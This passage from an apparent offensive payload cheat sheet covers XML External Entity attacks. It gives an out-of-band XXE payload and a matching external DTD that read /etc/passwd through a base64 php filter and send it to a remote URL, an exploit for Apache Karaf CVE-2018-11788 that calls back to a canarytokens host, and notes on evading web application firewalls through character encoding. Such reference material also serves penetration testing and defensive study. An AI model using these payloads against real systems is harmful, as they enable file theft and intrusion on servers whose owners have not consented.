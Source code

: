 ```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### XXE OOB with Apache Karaf

CVE-2018-11788 affecting versions:

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)


## WAF Bypasses

### Bypass via Character Encoding

XML parsers uses 4 methods to detect encoding:

* HTTP Content Type: `Content-Type: text/xml; charset=utf-8`
* Reading Byte Order Mark (BOM)
* Reading first symbols of document 
    * UTF-8 (3C 3F 78 6D)
    * UTF-16BE (00 3C 00 3F)
    * UTF-16LE (3C 00 3F 00)
* XML declaration: `<?xml version="1.0" encoding="UTF-8"?>`

| Encoding | BOM      | Example                             |              |
| -------- | -------- | ----------------------------------- | ------------ |
| UTF-8    | EF BB BF | EF BB BF 3C 3F 78 6D 6C             | ...<?xml     |
| UTF-16BE | FE FF    | FE FF 00 3C 00 3F 00 78 00 6D 00 6C | ...<.?.x.m.l |
| UTF-16LE | FF FE    | FF FE 3C 00 3F 00 78 00 6D 00 6C 00 | ..<.?.x.m.l. |
